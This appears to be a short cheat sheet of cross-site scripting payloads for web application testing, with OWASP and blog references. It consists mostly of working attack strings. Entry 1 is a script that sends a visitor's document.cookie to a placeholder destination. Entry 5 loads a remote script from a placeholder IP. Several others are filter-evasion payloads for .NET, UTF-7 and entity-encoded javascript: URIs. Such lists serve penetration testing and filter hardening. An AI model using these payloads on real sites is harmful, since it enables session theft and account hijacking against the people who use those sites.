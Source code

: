 ### 1. Grab the cookie
```
<script>i = new XMLHttpRequest(); i.open('GET', '[dest]' + document.cookie, true); i.send();</script>
```
**- web application,XSS,cookies**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://excess-xss.com/
__________
### 2. .net xss filter evasion
```
<%div style="xss:expression(alert(123))">
```
**- web application,XSS**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
__________
### 3. .net xss filter evasion
```
<IMG SRC=j&#X41vascript:alert('test2')>
```
**- web application,XSS**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
__________
### 4. UTF7 xss
```
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi
```
**- web application,XSS**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
__________
### 5. mini xss
```
<script src=//[ip]>
```
**- web application,XSS**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
__________
### 6. JSFiddle skele
```
https://jsfiddle.net/byf89m43/2/
```
**- web application,XSS**
#### References:

http://stackoverflow.com/questions/17382200/print-var-in-jsfiddle
__________
### 7. Asp.net filter evasion
```
<% style=behavior:url(: onreadystatechange=alert(1)>
```
**- web application,XSS**
#### References:

https://prezi.com/sfiyqpfngyor/xss-stylebehavior-urlhttphackersorgxsshtc/
http://blog.innerht.ml/cascading-style-scripting/
__________
